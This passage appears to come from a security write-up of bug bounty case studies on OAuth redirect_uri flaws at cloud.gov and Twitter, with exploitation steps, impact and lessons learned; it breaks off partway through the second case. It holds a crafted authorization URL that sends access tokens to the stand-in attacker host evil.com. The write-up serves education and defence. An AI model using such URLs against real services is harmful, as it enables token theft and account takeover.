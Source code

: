 ### Exploitation Method

1. The attacker crafted a malicious OAuth authorization URL with a modified `redirect_uri` parameter pointing to their controlled domain:
   ```
   https://login.fr.cloud.gov/oauth/authorize?client_id=[REDACTED]&response_type=token&redirect_uri=https%3A%2F%2Fevil.com%2Fauth%2Fcallback&state=[REDACTED]
   ```

2. When a victim clicked on this link and authenticated with their .gov account, they would be redirected to the attacker's domain (`evil.com`) with the access token included in the URL.

3. The attacker could then capture this token and use it to access the victim's resources or take over their account.

### Impact

This vulnerability allowed complete account takeover, as the attacker could use the stolen OAuth token to access the victim's account and all associated resources. For a government platform, this represented a significant security risk with potential access to sensitive government data.

### Lessons Learned

1. OAuth providers must implement strict validation of `redirect_uri` parameters, ensuring they match pre-registered URIs exactly.
2. Whitelisting approaches are safer than blacklisting or partial matching.
3. The implicit flow (which returns tokens directly in the URL) is particularly risky when redirect validation is weak.

## Case Study 2: OAuth Token Theft via Open Redirector

**Program**: X / xAI (formerly Twitter)  
**Report**: [HackerOne #131202](https://hackerone.com/reports/131202)  
**Severity**: Critical  
**Bounty**: $840  
**Disclosure Date**: July 11, 2016

### Vulnerability Details

Twitter's OAuth implementation was vulnerable to token theft due to a misconfiguration in the redirect URI validation. The OAuth service accepted URLs that matched certain patterns but didn't properly validate the full redirect destination, allowing attackers to chain this with an open redirector.

### Exploitation Method

1. The researcher identified that Twitter's OAuth implementation accepted various URL patterns as valid redirect URIs:
   ```
   http://twitter.com
   http://anything.twitter.com
   https://twitter.com
   https://anything.twitter.com/path?anything
   ```
